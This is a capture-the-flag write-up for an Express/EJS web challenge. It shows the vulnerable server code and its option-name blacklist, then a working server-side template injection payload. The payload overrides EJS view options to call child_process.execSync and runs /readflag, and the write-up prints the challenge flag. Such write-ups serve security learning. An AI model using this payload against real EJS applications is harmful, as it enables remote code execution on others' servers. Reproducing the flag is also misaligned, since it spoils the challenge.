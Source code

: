 # 🎓🌎 Express JavaScript Security
> My first JavaScript project.

## About the Challenge
We have been given a source code that contains some files with `.js` and `.ejs` extensions (You can download the file [here](dist_express-javascript-security_31d3740ae934682d8c36d3a3182c29981e0c9909)). Here is the content of main.js

```js
const express = require('express');
const ejs = require('ejs');

const app = express();

app.set('view engine', 'ejs');

const BLACKLIST = [
    "outputFunctionName",
    "escapeFunction",
    "localsName",
    "destructuredLocals"
]

app.get('/', (req, res) => {
    return res.render('index');
});

app.get('/greet', (req, res) => {
    
    const data = JSON.stringify(req.query);

    if (BLACKLIST.find((item) => data.includes(item))) {
        return res.status(400).send('Can you not?');
    }

    return res.render('greet', {
        ...JSON.parse(data),
        cache: false
    });
});

app.listen(3000, () => {
    console.log('Server listening on port 3000')
})
```

This is a Node.js Express server application that uses the EJS templating engine to render views. The server listens on port 3000. The application has two main routes: the root route ('/') and the '/greet' route. When accessing the root route, it renders the 'index' view. When accessing the '/greet' route, it checks the query parameters, converts them to a JSON string, and looks for any blacklisted items within the data. If any blacklisted item is found, it returns a 400 response with the message "Can you not?". Otherwise, it parses the JSON data, renders the 'greet' view with the parsed data and disables caching. And then here is the content of `greet.ejs`

```js
<html>

<body>
    <h1 style="font-family: <%= font %>; font-size: <%= fontSize %>px;">
        Hello <%= name %>
    </h1>
</body>

</html>
```

## How to Solve?
At first, we are using this [website](https://eslam.io/posts/ejs-server-side-template-injection-rce/) to perform Remote Code Execution, but `outputFunctionName` is blacklisted. Therefore, we need to find another working payload. Finally, I found another working payload after doing some googling. (Check out this [website](https://blog.z3ratu1.cn/hxpCTF2022wp.html)). Here is the final payload I used to solve this challenge:

```
http://ejs.web.seetf.sg:1337/greet?name=test&font=test&fontSize=test&settings[view%20options][client]=1&settings[view%20options][escape]=%7B%7D.constructor.constructor(%22return%20process.mainModule.require(%27child_process%27).execSync(%27/readflag%27)%22)
```

I am executing the `/readflag` command to obtain the flag.

![flag](images/flag.png)

```
SEE{0h_n0_h0w_d1d_y0u_ch4ng3_my_0pt10ns}
```